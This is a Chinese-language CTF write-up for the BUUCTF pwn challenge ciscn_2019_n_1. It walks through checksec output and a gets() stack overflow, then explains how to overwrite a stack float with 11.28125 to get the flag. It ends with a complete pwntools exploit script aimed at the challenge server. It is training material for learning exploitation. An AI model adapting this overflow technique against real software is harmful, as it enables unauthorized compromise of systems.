 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 1
date: 2022-3-19 20:30:09
permalink: /pages/2e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

![iswb23](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/iswb23.png)

发现溢出函数gets，另外若v2==11.28125成立，则直接可获得flag

## 思路分析

1. 分析:
   - v1处可溢出
   - v1与v2同时是栈上变量
   - v2=0
   - 当v2=11.28125时可直接获得flag
   - v1地址比v2高
2. 思路:
   - 从v1直接溢出到v2处将v2修改为11.28125以获得flag

## 确定偏移量

- 通过ida及简单的调试可知从v1到v2的偏移量为0x30-4

## 问题

pwntools中的flat无法打包float值:

- 需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```